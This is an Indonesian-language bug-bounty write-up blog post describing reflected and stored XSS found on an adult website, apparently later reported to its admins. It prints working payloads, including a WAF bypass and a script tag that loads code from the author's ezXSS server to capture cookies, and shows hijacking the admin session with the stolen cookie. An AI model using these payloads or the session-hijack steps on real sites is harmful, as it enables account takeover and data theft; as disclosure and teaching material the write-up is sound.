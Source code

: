 ```yaml
---
featured_image: "/uploads/abay/screenshot-situs-haram.png"
author_description: Saya Akbar Kustirama, orang-orang memanggil saya Abay. Saya sering
  membuat sesuatu hanya kesenangan pribadi. Biasanya saya tidak bisa “hidup” tanpa
  Gudang Garam. Beberapa kali mengubah ide-ide menarik menjadi hal-hal yang indah—kadang
  berantakan. Saya juga kontributor dari situs dengan nama Codelatte, yang merupakan
  blog berbahasa Indonesia yang membahas pemrograman situs web.
author_avatar: "/uploads/abay/yha.webp"
author_facebook: https://facebook.com
author_twitter: https://twitter.com
author_instagram: https://instagram.com
author_donation: https://blog.hackstreet.id
author_web: https://kustirama.id/
title: Mengintip Dashboard Admin Situs Haram
date: 2022-12-17T17:00:00+07:00
author: abay
tags:
- xss
- bugbounty
- writeup
categories: bug bounty

---
```

Kegiatan ini berawal dari salah satu teman yang memberi informasi bahwa dia baru saja mendapatkan _bounty_ dari salah satu situs haram yang ada di luar sana. Singkat cerita, saya mencoba mencari peruntungan serupa dengan mencari situs sejenis di pencarian Google dengan harapan menemukan situs yang cukup “umum” yang secara fitur punya banyak bagian yang bisa saya coba untuk masuki.

Untuk mempermudah dan agar saya tidak perlu menyebut nama situsnya, mari kita sebut situs ini sebagai `situsharam.com`.

![Mengintip Dashboard Admin Situs Haram](https://akbar.kustirama.id/mengintip-dashboard-admin-situs-haram/images/screenshot-situs-haram.png)

Setelah mencoba beberapa fitur seperti list _actors/actress_, kategori, pencarian, serta fitur yang membutuhkan autentikasi pengguna seperti _edit profile_, _like_, _comment_ dan semacamnya, saya menemukan beberapa celah yang detailnya akan saya jelaskan di bawah ini.

## Reflected XSS pada Halaman Pencarian

Celah pertama adalah _Reflected XSS_ yang saya temukan di halaman pencarian. Payload yang saya gunakan adalah:

    asd"><ScRiPt%20>alert(1);<%2fscript>

Saat mencoba, saya menemukan bahwa karakter `/` diblok oleh WAF sehingga saya coba untuk mem-bypass rule tersebut menggunakan karakter `%2f`. Dari temuan ini saya bisa menggunakan _payload_ yang sudah disisipi _script_ untuk mencuri `cookie` pengguna.

Pada kasus di dunia nyata, seorang penyerang akan menyisipkan javascript yang bertujuan untuk mencuri _cookie_ pengguna dan beberapa data lain, lalu mengirimnya pada server penyerang.

Untuk melakukan ini, penyerang perlu mengirim URL (yang sudah disisipi _payload_) ke pengguna lain atau pemilik/admin dari situs ini. Lalu penyerang akan menggunakan data tersebut untuk masuk di situs target tanpa menggunakan _username_ dan _password_.

![Mengintip Dashboard Admin Situs Haram](https://akbar.kustirama.id/mengintip-dashboard-admin-situs-haram/images/screenshot-reflected-xss-pencarian.jpg)

## Stored XSS pada Profile

Saya rasa kebanyakan _bug bounty hunter_ (termasuk saya) akan mencoba memasukkan _payload_ ke setiap form yang kami temui. Dengan modal “penting yakin”, saya mengisi `"><h1>asdf</h1>"` pada kolom nama di halaman _Edit Profile_.

Setelah menyimpan perubahan tersebut, kode HTML yang saya sisipkan dibaca oleh situs sehingga menandakan adanya potensi untuk _Stored XSS_.

![](https://akbar.kustirama.id/mengintip-dashboard-admin-situs-haram/images/screenshot-html-injection-profile.jpg)

Saya melanjutkan dengan memasukkan payload:

    "><script src=//x.serversaya.com></script><x="

* `">` = digunakan untuk keluar dari input form (`<input>`)
* `<script src=//x.serversaya.com></script>` = digunakan untuk memanggil script dari server saya ([ezXSS](https://github.com/ssl/ezXSS))
* `<x="` = digunakan untuk membuka kembali hasil escape dari input form, sehingga tidak ada “ type=”text” dst seperti screenshot di atas

Setelah beberapa waktu menunggu, saya mendapat notifikasi bahwa payload di atas ditemukan di domain lain (cp.situslain.com) yang mana adalah dashboard admin dari `situsharam.com`. Berikut detail laporan dari [ezXSS](https://github.com/ssl/ezXSS) saat payload saya ditemukan di dashboard admin (klik gambar untuk memperbesar).

![Mengintip Dashboard Admin Situs Haram](https://akbar.kustirama.id/mengintip-dashboard-admin-situs-haram/images/screenshot-xss-dashboard-admin-situs-haram.jpg)

Pada tangkapan layar di atas, terlihat ada `cookie` admin yang tertangkap oleh kode javascript yang saya panggil. Saya akan mencoba menggunakan Cookie tersebut untuk masuk ke [`https://cp.situslain.com/user/edit/`](https://cp.situslain.com/user/edit/ "https://cp.situslain.com/user/edit/")`{userid}`.

Ketika mengakses [`https://cp.situslain.com/user/edit/`](https://cp.situslain.com/user/edit/ "https://cp.situslain.com/user/edit/")`{userid}`, saya dialihkan ke halaman login [`https://cp.situslain.com/user/login`](https://cp.situslain.com/user/edit/ "https://cp.situslain.com/user/edit/").

![Mengintip Dashboard Admin Situs Haram](https://akbar.kustirama.id/mengintip-dashboard-admin-situs-haram/images/screenshot-login-page-set-cookie.jpg)

Selanjutnya saya mencoba _set cookie_ manual melalui `Console` pada `inspect element` dengan cara memasukkan kode javascript. Cookie ini berasal dari laporan ezXSS di atas:

    document.cookie = 'PHPSESSID=lot4#######################';

Setelah Cookie di-set, saya mencoba mengulang lagi dan akhirnya berhasil membuka halaman [`https://cp.situslain.com/user/edit/`](https://cp.situslain.com/user/edit/ "https://cp.situslain.com/user/edit/")`{userid}`.

![Mengintip Dashboard Admin Situs Haram](https://akbar.kustirama.id/mengintip-dashboard-admin-situs-haram/images/screenshot-dashboard-admin-situs-haram.jpg)

**Disclaimer**  
_Level_ dan _Credit_ yang tertera pada screenshot adalah pemberian admin (apresiasi, menurut istilah sekarang) setelah saya melaporkan temuan ini. Proses pelaporan tidak akan saya jelaskan di sini, hehe.

Sekian artikel “Mengintip Dashboard Admin Situs Haram”. Semoga ada yang bisa dipelajari dari artikel ini, selain akhirnya kita tahu bentuk halaman dashboard admin situs haram. Sampai jumpa di artikel selanjutnya.